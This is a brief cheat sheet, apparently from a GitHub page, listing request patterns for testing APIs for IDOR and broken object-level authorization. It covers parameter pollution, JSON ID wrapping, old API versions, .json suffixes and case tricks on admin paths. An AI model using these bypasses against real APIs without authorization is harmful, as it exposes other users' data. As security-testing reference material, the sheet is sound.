 IDOR API TESTING

**API1:2019 Broken Object Level Authorization**

- Add parameter to the endpoint

```html
GET /api_v1/messages -> 401
vs 
GET /api_v1/messages?user_id=victim_uuid -> 200
```

**Note**: Useful tool to bruteforce common IDOR URL parameter names [Arjun](https://github.com/s0md3v/Arjun).


- HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID -> 401
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID -> 200

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- Add .json to the endpoint

```html
/user_data/2341 -> 401 
/user_data/2341.json -> 200 
```

- Test on outdated API Versions

```html
/v3/users_data/1234 -> 403 
/v1/users_data/1234 -> 200 
```

Wrap the ID with an array.

```html
{“id”:111} -> 401 
{“id”:[111]} -> 200 
```

Wrap the ID with a JSON object:

```html
{“id”:111} -> 401 

{“id”:{“id”:111}} -> 200 
```

JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legitid>,”user_id”:<victim>}
```

MFLAC:

```html
GET /admin/profile --> 401 

GET /ADMIN/profile --> 200 
```
